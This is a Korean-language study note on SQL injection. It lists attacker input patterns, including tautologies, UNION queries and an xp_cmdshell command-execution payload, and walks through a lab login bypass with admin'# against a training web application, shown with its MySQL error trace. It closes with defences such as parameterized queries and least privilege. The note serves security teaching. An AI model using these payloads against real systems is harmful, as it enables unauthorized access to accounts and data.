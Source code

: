 
# SQL Injection

<center><img src = "https://user-images.githubusercontent.com/76420201/106089260-ee74ed00-616a-11eb-8fe7-1ac6681d5e2e.png" ></center>

SQL Injection 이란 악의적인 사용자가 보안상의 취약점을 이용하여, 임의의 SQL 문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도록 조작하는 행위 입니다. 인젝션 공격은 비교적 쉬운 편이고 공격에 성공할 경우 큰 피해를 입힐 수 있는 공격입니다.

- 외부 입력값을 쿼리 조작 문자열 포함 여부를 검증하지 않고 SQL문 생성 및 실행에 사용하는 경우 <br>
    - 쿼리의 의미와 구조가 변경되어서 실행
    - 의도하지 않은 데이터베이스에 대한 조작이 가능

<br>

## 공격자 패턴

1. 항상 참이 되는 입력<br>
ex) `a' or 'a' = 'a`<br>
`select * from users where name = 'a' or 'a' = 'a'`<br>
-> 모든 데이터를 조회 -> 권한 밖에 데이터에 접근 가능

2. 오류를 유발하는 입력<br>
ex) `a'`<br>
`select * from users where name = 'a''`<br> 
-> 구문 오류를 유발<br>
-> 시스템 오류를 통해서 시스템 내부 정도 수집에 활용

3. 추가 정보를 조회하는 입력<br>
ex) hong' union select * from ... --<br>
select * from users where name = 'hong' <br>
union<br>
select * from ... --<br>

4. 시스템 명령어 실행하는 입력<br><br>
입력 ex) hong'; exec xp_cmdshell 'cmd.exe /c ipconfig'; -- 
select * from users where name = 'hong'; exec xp_cmdshell 'cmd.exe /c ipconfig'; -- '

해당 DBMS의 쉘 이용이 가능 = 제어권을 탈취


5. 참, 거짓을 유발하는 입력 ⇒ Blind SQL Injection

<br>

## SQL Injection을 이용한 인증과정 우회

@Attacker 가상머신에서 Proxy를 해제 후 http://winxp:8080/openeg로 접속

#1 처리 과정을 추측
사용자 입력
ID: a
PW: b

서버로 전달
http://winxp:8080/openeg/login.do?userid=a&userpw=b

서버에서 처리
select * from users where user_id = 'a' and user_pw = 'b'

#2 입력값이 검증 없이 처리에 사용되는지 여부를 확인
사용자 입력
ID: a'
PW: b'

서버로 전달
http://winxp:8080/openeg/login.do?userid=a'&userpw=b'

서버에서 처리
select * from users where user_id = 'a'' and user_pw = 'b''
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~===

HTTP Status 500 -
type Exception report

message
description The server encountered an internal error () that prevented it from fulfilling this request.

exception
org.springframework.web.util.NestedServletException: Request processing failed; nested exception is org.springframework.jdbc.BadSqlGrammarException: SqlMapClient operation; bad SQL grammar []; nested exception is com.ibatis.common.jdbc.exception.NestedSQLException:   
--- The error occurred in kr/co/openeg/lab/login/dao/login.xml.  
--- The error occurred while applying a parameter map.  
--- Check the login.loginCheck2-InlineParameterMap.  
--- Check the statement (query failed).  
--- Cause: com.mysql.jdbc.exceptions.jdbc4.MySQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'b''' at line 1
	org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:894)
					:

#3 수집한 정보를 이용해서 추가 공격 시도
사용자 입력
ID: a'#
PW: b'#

서버로 전달
http://winxp:8080/openeg/login.do?userid=a'#&userpw=b'#

서버에서 처리
select * from users where user_id = 'a'#' and user_pw = 'b'#'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


#4 가입된 회원 정보를 조회
amdin으로 회원 가입을 시도 → 이미 가입된 회원 ⇒ admin 이라는 아이디를 사용하는 사용자가 존재


#5 admin으로 로그인을 시도
사용자 입력
ID: admin'#
PW: b'#

서버로 전달
http://winxp:8080/openeg/login.do?userid=admin'#&userpw=b'#

서버에서 처리
select * from users where user_id = 'admin'#' and user_pw = 'b'#'






## 방어 기법

방어기법
- 쿼리 조작 문자열 포함 여부를 확인
    - 제거하고 사용
    - 안전한 형태로 바꿔서 사용
- 일정한 형태로 쿼리가 실행되는 것을 보장 = 구조화된 쿼리 실행 = 파라미터화된 쿼리 실행 = 정적 쿼리 실행
- 오류 메시지를 통제 = 오류 메시지에 시스템 정보가 포함되지 않도록 처리
- 어플리케이션에서 사용하는 DB 사용자의 권한을 최소로 부여
